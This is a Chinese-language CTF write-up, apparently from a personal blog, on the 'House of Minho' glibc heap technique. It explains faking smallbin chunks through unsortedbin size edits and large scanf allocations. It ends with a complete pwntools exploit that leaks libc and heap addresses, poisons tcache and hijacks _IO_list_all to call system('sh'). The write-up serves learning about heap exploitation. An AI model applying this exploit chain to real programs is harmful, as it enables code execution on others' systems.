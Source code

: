 ```yaml
---
title: housofminho
date: 2024-08-01
categories: 日常研究
tag: houseof
---
```

# 前言
`houseofminho`最早是在宁波赛上遇到的，没想到这玩意给了我迎头痛击。当时老觉得这些过于复杂的堆利用有点钻牛角尖了，实战意义不大，但是现在想想，还是得认真学这些。

这种复杂的堆利用如果一直畏难的话，那我就一直不会有长进，但是啃下来之后却也觉得还能接受了。
# 题目详情
通过出题人给的源码我们可以发现，我们至始至终最多只能操控一个堆块，并且大小只能是0x40或0x80。尽管题目在0x40的堆块读入时给了0x80的大溢出，但是我们的利用还是有很大麻烦。

有一个很重要而且有趣的点是这道题对于scanf的利用

**scanf在收到大量字节输入时会调用malloc来创建缓冲区**
**而这道题看似scanf只有一个读入数字的处理？怎么让他收到大量字节输入呢**
**答案是在原来与题目交互时输入的1,2,3前面加上很多个0，这样就会让scanf有一个malloc大量字节后再free的操作**
**以上有一个前提，就是没有setbuf(stdin,0)**

初步利用思路
1. 在smallbin内放入多个0x90大小的堆块
2. 通过scanf的大malloc来触发将smallbin放入tcachebin的机制，从而利用溢出改fd指针获得任意地址写

那么下一步就是如何获得smallbin了
1. 首先smallbin只需要有一个，剩下我们可以通过bk指针在可控的堆上通过布局伪造，即使显示被corrupted，但是将它们放入tcachebin的过程是沿着bk进行且没有检查，所以这样是可以的
![smallbin](./minho/smallbin.png)
2. 那么smallbin从哪里来呢，答案是从unsortedbin
3. 我们可以先将堆块size改大，放入unsortedbin，再改小size(由于unsortedbin本身就是什么size大小的堆块都有，在此处自然没有对其size的检查)
4. 通过scanf的大堆块申请之后，被我们改小size的unsortedbin就会落入smallbin

当然上述都只是相对简化的，实际这题中还有两个点
1.  1. 利用unsortedbin伪造smallbin的过程中，在改小了size的unsortedbin下方，我们还需要伪造glibc的保护块来防止出错，而这样我们的可控空间就不够大了。
   ![heap1](./minho/heap1.png)
   图中很明显，我们可控的部分是绿色堆块往下0x80的大小，以及蓝色堆块往下数0x80的大小，但是我们必须伪造0x90大小的堆块！而且在0x90大小的堆块下方还需伪造两个哨兵块来防止malloc报错
    2. 所以在这里还有一个unlink手法，将unsortedbin向上合并0x30的大小以提高伪造利用率。
    3. 在图中可以看到绿色堆块中的0x31大小的堆块就是准备用来合并的，这样我们利用0x50大小堆块的uaf范围就可以从(0x80-0x48)变成(0x80-0x18)，大大增加了伪造的可能性
2.  在程序最开始还利用scanf的大堆块写往图中最下方的橙色堆块后方写了一个\x33，也就是3的ascii码。这样的布局可以防止蓝色堆块被free成unsortedbin之后的合并检查出错，因为\x33的prev_in_use位为1，被启用。

我这里也只是简单写一下思路，这题中的很多细节我都讲的比较粗略或者不够完整。
更完整详细的解题思路可以去看看[看雪Csome的记录](https://bbs.kanxue.com/thread-279588.htm)

这是完整exp
```
from pwn import *
context(
    terminal = ['tmux','splitw','-h'],
    os = "linux",
    arch = "amd64",
    # arch = "i386",
    log_level="info",
)
def debug(io):
    gdb.attach(io,
'''
# b *$rebase(0x121B)
b 25
'''
)
io = process("./bh")

def add_small(content):
    log.info(f'add_small {content}')
    io.sendlineafter(b'1. new\n2. show\n3. delete\n> ',b'1')
    io.sendlineafter(b'Size [1=small / 2=big]: ',b'1')
    io.sendafter(b'Data: ',content)
def add_big(content):
    log.info(f'add_big {content}')
    io.sendlineafter(b'1. new\n2. show\n3. delete\n> ',b'1')
    io.sendlineafter(b'Size [1=small / 2=big]: ',b'2')
    io.sendafter(b'Data: ',content)
def show():
    log.info('show')
    io.sendlineafter(b'1. new\n2. show\n3. delete\n> ',b'2')
def show2(len):
    log.info(f'show {hex(len-1)}*0 + 2')
    io.sendlineafter(b'1. new\n2. show\n3. delete\n> ',b'0'*(len-1) + b'2')
def delete():
    log.info(f'delete')
    io.sendlineafter(b'1. new\n2. show\n3. delete\n> ',b'3')
def delete3(len):
    log.info(f'delete {hex(len-1)}*0 + 3')
    io.sendlineafter(b'1. new\n2. show\n3. delete\n> ',b'0'*(len-1) + b'3')

debug(io)
delete3(0xd59)
add_small(b'x'*0x48 + p64(0xd11))
show2(0x1000)
delete()
add_small(b'x'*0x50)
show()
io.recvuntil(b'x'*0x50)
libc_base = u64(io.recv(0x6).ljust(8,b'\x00')) - 0x219ce0
log.success(hex(libc_base))

delete()
add_small(b'x'*0x48 + p64(0xcf1))
delete()
add_big(b'x')
delete()
add_small(b'x'*0x50)
show()
io.recvuntil(b'x'*0x50)
heap_base = (u64(io.recv(0x5).ljust(8,b'\x00')) - 0x1)*0x1000
log.success(hex(heap_base))
delete()
add_small(b"a" * 0x10 + p64(0) + p64(0x31) + p64(heap_base + 0x12c0) * 2 + p64(0x0) * 2 + p64(0x30) + p64(0xd00))
delete()
add_big(b"a" * 0x50 + p64(0x90) + p64(0x10) + p64(0x00) + p64(0x11))
delete()
add_small(flat({
    0x10:0,
    0x18:0x91,
    0x20:heap_base + 0x1380,
    0x28:libc_base + 0x219ce0,
},filler=b'\x00'))
show2(0xfff)
delete()

add_small(flat({
    0x10 : {
            0x00: 0,
            0x08: 0x91,
            0x10: heap_base + 0x12c0,
            0x18: heap_base + 0x12c0 + 0x30,

            0x30: 0,
            0x38: 0x91,
            0x40: heap_base + 0x12c0,
            0x48: heap_base + 0x12c0 + 0x50,
 
            0x50: 0,
            0x58: 0x91,
            0x60: heap_base + 0x12c0 + 0x30,
            0x68: libc_base + 0x219d60
        }
    }
, filler=b"\x00"))
delete()

add_big(b'x')
delete()
_IO_list_all = libc_base + 0x21a680
system = 0x50d60 + libc_base
 
fake_file = heap_base + 0x12e0
add_small(b"a"*0x10+p64(0) + p64(0x71) + p64((heap_base + 0x12d0 + 0x70)^((heap_base + 0x1000)>>12)))
delete()
add_big(flat({
    0x0+0x10: b"  sh;",
    0x28+0x10: system,
    0x68: 0x71,
    0x70: _IO_list_all ^((heap_base + 0x1000)>>12),
}, filler=b"\x00"))
delete()
add_big(flat({
    0xa0-0x60: fake_file-0x10,
    0xd0-0x60: fake_file+0x28-0x68,
    0xD8-0x60: libc_base + 0x2160C0, # jumptable
}, filler=b"\x00"))
delete()
add_big(p64(fake_file))

io.interactive()
```
